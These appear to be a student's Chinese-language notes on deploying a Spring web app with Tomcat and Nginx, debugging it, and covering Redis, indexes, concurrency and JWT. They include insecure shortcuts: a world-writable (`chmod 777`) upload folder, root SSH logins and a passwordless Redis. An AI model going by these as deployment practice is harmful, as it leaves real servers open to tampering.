    * scp 方式 `cd 项目目录` 然后`scp build/libs/ssm-0.0.1-SNAPSHOT.war root@xx.xx.xxx.xx:/var/lib/tomcat9/webapps/ROOT.war`
    * `ufw allow 8080` 防火墙打开 8080 端口
    * 测试能否通过 IP 正常访问 http://xx.xx.xxx.xx:8080
  11. Nginx配置
    * [服务器端] 删除默认配置 `sudo rm /etc/nginx/sites-enabled/default`
    * [本地] 自定义 Nginx 配置(见ssm.nginx)
    ```
    server {
        listen 80;

        location / {
            proxy_pass http://localhost:8080;
        }
    }
    // Nginx 监听80端口 对于'/'路径的请求 转到8080端口
    ```
    * [本地] 上传配置到服务器
    ```
    cd 项目目录
    scp ssm.nginx root@xx.xx.xxx.xx:/tmp/ssm.nginx
    ```
    * [服务器端] 写入配置
    ```
    sudo cp /tmp/ssm.nginx /etc/nginx/sites-enabled/ssm.nginx
    ```
    * [服务器端] 重启 Nginx 使配置生效
    `sudo service nginx restart`

  12. 配置图片上传路径
    * 在服务器上对应路径建立文件夹
    ```
    cd /var/lib/tomcat9/webapps
    mkdir images
    // 路径由项目的FileUploadController.java决定
    ```
    * 修改图片文件夹的访问权限 `chmod 777 images`
    * 访问 http://网站/upload/index 上传一张名字为 1.png 的图片 上传成功后, 刷新网页, 就能显示该图片

# 调试
  1. 本机debug
    * 看 log 输出，有没有报错，错误可能在输出中间。
    * 浏览器按 f12 看前端有没有报错。
  2. 服务器debug
    * 用 Tomcat 启动程序
    * 测试是否能在服务器本地访问 `curl localhost:8080/todo`
  3. 检查 Tomcat
    * 看 Tomcat 状态：`systemctl status tomcat9`
    * 看日志1：`journalctl -e -u tomcat9` [-e 跳到最后面，-u 指定看哪个日志]
    * 看日志2: 在 /var/log/tomcat 下查看日志文件
    * [如果解决了BUG]把 war 包拷贝到 /var/lib/tomcat9/webapps/下, 改名为 ROOT.war
    * 命令行测试能否在服务器本地访问 `curl localhost:8080/todo`
    * 浏览器测试是否能在本机访问 `xx.xx.xxx.xx`。
  4. 检查 Nginx
    * 看 Nginx 状态：`systemctl status nginx`。
    * 看日志：`journalctl -e -u nginx` 或者在 /var/log/nginx 下查看日志文件
    * 看配置：`/etc/nginx/sites-enabled/xxx`
    * 在命令行用 `curl http://127.0.0.1` 来测试是否能在服务器本地访问。
    * 用浏览器来测试是否能在本机访问 `x.x.x.x`。
    * 在浏览器里按 f12 看前端有没有报错。
    * 检查腾讯云的安全组
  5. 如果解决掉一个 bug 后还是有其他 bug，重复上面步骤。

# 更新代码
  1. Tomcat 部署更新
      * 本地编译 war 包 [build/libs/ssm-0.0.1-SNAPSHOT.war]
      * 用 scp 或者 filezilla 把生成的 .war 包拷贝到服务器上去
      * scp 方式 `cd 项目目录` 然后`scp build/libs/ssm-0.0.1-SNAPSHOT.war root@xx.xx.xxx.xx:/var/lib/tomcat9/webapps/ROOT.war`[如果是上传到服务器的tmp目录 则需要拷贝到webapps目录 且保证包名为ROOT.war才可让Tomcat自动读取]
      * 拷贝完成后，tomcat9 会自动安装我们的程序，大概需要十几秒
      这时候就可以用下面的链接访问我们的网站了（注意打开防火墙）
      http://网站:8080/todo

  2. Nginx 配置更新
      * 把项目根目录下的 ssm.nginx 文件上传到服务器
      * 写入 Nginx 配置
        * 把本机的 ssm.nginx 文件上传到服务器的 /tmp/ssm.nginx
        * 把配置文件放入 nginx 的配置中 `sudo cp /tmp/ssm.nginx /etc/nginx/sites-enabled/ssm.nginx`
        * 注意删除 /etc/nginx/sites-enabled 目录下其他的配置文件, 否则会有 80 端口冲突
      * 重启 Nginx 使配置生效 `sudo service nginx restart`

      这时候，就可以使用下面的链接访问我们的网站了
      http://网站/todo

# 端口占用
  * 非 80 端口
      1. 按程序名找 PID `ps aux | grep java`(按端口号找 PID `lsof -i:9000`) + `kill PID` + 再次检查
      3. 如程序又被启动且换新 PID 说明是 systemd 守护的服务
      4. 找到进程id对应的服务 `systemctl status PID`
      5. 关掉这个服务 `systemctl stop 服务名`
  * 80 端口 除了考虑上述非 80 端口情况外，还需关闭 Nginx

# 索引
#### 哈希索引(适用于等值查询, 不支持范围查询和模糊查询  等)
#### B+树索引
  * ![](assets/markdown-img-paste-20200905111814177.png)
  * 主键索引(比如以id为索引 且id为主键)
    * 树节点存储多条间断的id
    * **叶子节点存储数据**[聚簇索引]
    * 树结点之间存在id范围关系
    * 叶子节点之间形成链表结构
  * 二级索引(比如以username为索引)
    * 树节点存储多条间断的username
    * **叶子节点不存储数据只存储主键的值(id)**[非聚簇索引]
    * 树结点之间存在username范围关系
    * 叶子节点之间形成链表结构
  * 覆盖索引, sql 要返回的值刚好是我索引的 key
  * 非覆盖索引, 需要多找一次主键索引, 这叫回表
  * 联合索引
  ![](assets/markdown-img-paste-20200905123516490.png)
  * 唯一索引 [可防止插入重复数据]
  * 联合唯一索引
  * 全文索引

# 其他
  * Servlet接口的实现由ServletInitializer.java完成
  * 程序入口: classes->kybmig->ssm->ServletInitializer.class, Tomcat扫到并启动该class后, 该class会去启动Spring, 然后Spring开始扫描代码, 进行依赖注入、实例化等工作.
  * Nginx 这种 http 服务器主要处理的就是转发请求, 返回响应, 以及返回静态资源
  * 负载均衡
  * 分库分表
  * 重装linux后要做的事
    1. `rm ~/.ssh/known_hosts`
    2. `cat ~/.ssh/id_rsa.pub` 在本地复制公钥
    2. `ssh ubuntu@xx.xx.xxx.xx`
    3. `sudo su`
    5. `cd ~/.ssh`
    6. `nano authorized_keys` 粘贴公钥到Linux
    7. 重启`service ssh restart`(也可能是service sshd restart)
    8. `ssh root@xx.xx.xxx.xx`
    9. 配置防火墙
  * 运行在80端口的网站必须备案
  * 顺序IO 从硬盘读取连续的一段数据到内存
  * 随机IO 由于数据不是连续存储 需要多次从硬盘中读取多段数据到内存 每段数据只会用到一小部分
#

-------------------------------------第26课笔记----------------------------------
# Redis
#### 缓存的简易实现
  * TopicController
    * 添加属性**cache**
    ```
    private HashMap<Integer, TopicModel> cache;
    ```
    * **/topic/detail/{id}** 如果cache存在此id 直接从cache中获取对应的topicModel 否则从数据库获取topicModel同时将id和topicModel的映射存入cache
    ```
    @GetMapping("/topic/detail/{id}")
    public ModelAndView detail(@PathVariable Integer id) {
        TopicModel topicModel;
        if (cache.containsKey(id)) {
            topicModel = cache.get(id);
        } else {
            topicModel = topicService.findByIdWithCommentsAndUser(id);

        }
        cache.put(id, topicModel);
        ...
    }
    ```
    * /topic/update 更新topicModel到数据库之后一并更新cache

#### Redis的特点
  * 本质上是一个独立运行的HashMap
  * 数据放在内存 处理效率高  
  * 作用一 缓存
  * 作用二 多进程数据共享（session）  
  * "事务"  序列化执行
  * 不支持回滚
  * 无密码 禁止远程连接

#### Mac本地Redis配置
  * 安装 `brew install redis`
  * 启动 `redis-server` (退出 `control + C`)
  * 新建一个Terminal 进入 `redis-cli`

#### 服务器Redis配置
  * 安装 `apt install redis-server`
  * 确认 `service redis status`
  * 进入 `redis-cli`
  * Redis命令链接: redis.com.cn
  * String使用示例
    * 切换到0数据库 `select 0`
    * `set s1 "gua"`
    * `get s1`
    * 清空数据库 `FLUSHALL`
  * HashMap使用示例
    * 切换到0数据库 `select 0`
    * `HMSET map1 k1 "v1"`
    * `HGETALL map1`
    * `HGET map1 k1`
  * Sets使用示例
    * 切换到0数据库 `select 0`
    * `SADD set1 1`
    * `SADD set1 2`
    * `SMEMBERS set1`
  * Sorted Sets使用示例
    * 切换到0数据库 `select 0`
    * `ZADD oset1 777 "bai"`
    * `ZADD oset1 888 "gua"`
    * `ZADD oset1 999 "eee"`
    * `ZRANGE oset1 1 3` 左开右闭 取第二和第三个元素

#### Java项目内的Redis配置和使用
  * build.gradle `implementation 'org.springframework.boot:spring-boot-starter-data-redis'`
  * Mac本地启动 `redis-server`
  * application.properties
  ```
  # Redis 默认设置，即不设置也是这些设置
  # Redis 不带密码, 因此6379端口禁止对外开放
  spring.redis.database=0
  spring.redis.host=localhost
  spring.redis.port=6379
  ```
  * RedisConfig 自定义配置
  * RedisController 使用示例

# 消息队列
  * ![](assets/markdown-img-paste-2020091211514917.png)
  * 正确性和可靠性
  * 重试 retry
  * 保证投递 guaranteed delivery
  * 消息队列的作用
      * 异步
      * 削峰
      * 解耦和分布式中的应用
  * 主流实现 rabbitmq, rocketmq, Apache kafka

# Redis的订阅功能
  * RedisConfig.container() 创建频道 (频道名messageQueue)
  * service/RedisSubscriber 订阅频道需要实现的类
  * RedisController.set() 推送消息
  ```
  templateNormal.convertAndSend(mailTopic.getTopic(), value);
  ```

# 性能测试
  * 登录服务器测试`ssh root@xx.xx.xxx.xx`或Mac本地测试
  * `apt install apache2-utils`
  * `curl http://localhost` 确认本地可正常访问
  * `ab -n 100 -c 20 http://localhost/`或`ab -n 100 -c 20 http://122.51.44.243/` 一共100个请求 每次发送20个请求
  * 核心指标
    * **RPS 每秒处理请求数** (或者QPS Query Per Second)
    ```
    Requests per second:    302.19 [#/sec] (mean)
    ```
    * **95%的请求在xx毫秒内处理**
    ```
    Percentage of the requests served within a certain time (ms)
      50%     57
      66%     69
      75%     79
      80%     83
      90%    109
      95%    115
      98%    118
      99%    120
      100%    120 (longest request)
    ```

# guaMVC多线程
  * server.java 建立线程池
  ```
  static ExecutorService pool = Executors.newCachedThreadPool();
  ```
  * 创建实现了Runnable接口的类GuaServlet
  * 在run()中使用GuaServlet
  ```
  GuaServlet servlet = new GuaServlet(socket, r);
  Thread t = new Thread(servlet);
  pool.execute(t);
  ```

# 并发
  * 特点
    * **可见性** 一个线程修改了数据 另一个线程能看得到 (Java保证可见性的关键字 volatile 编译器在用到用该关键字修饰的变量时必须每次都小心地重新读取这个变量的值，而不是使用保存在寄存器里的备份)
    * **原子性** 一组操作要么都执行 要么都不执行
    * **有序性**
  * ThreadExample
  * 悲观锁和乐观锁
  * ABA问题
  * 锁升级
    1. 无锁 乐观锁
    2. 偏向锁 减少了拿锁释放锁的次数
    3. 轻量级锁
    4. 重量级锁

# JWT
  * JWTDemo
  * 结构 `Header.Claims.Signature`  头部.载荷.签名
  * 示例 `eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1YSJ9.REbW19p8qQomBm3rqqNXf428OuQq_JxmLp2bZAsLnrY`
  * base64解码
    * 头部 `{"typ":"JWT","alg":"HS256"}`
    * 载荷 `{"username":"gua"}`
  * 缺点
    * 登录失效的功能实现麻烦
    * 任何获得Token的人都能登录

# 其他
  * VisualVM
  * 数据库中表的关系
    * 一对多
    * 多对多 设置关联表
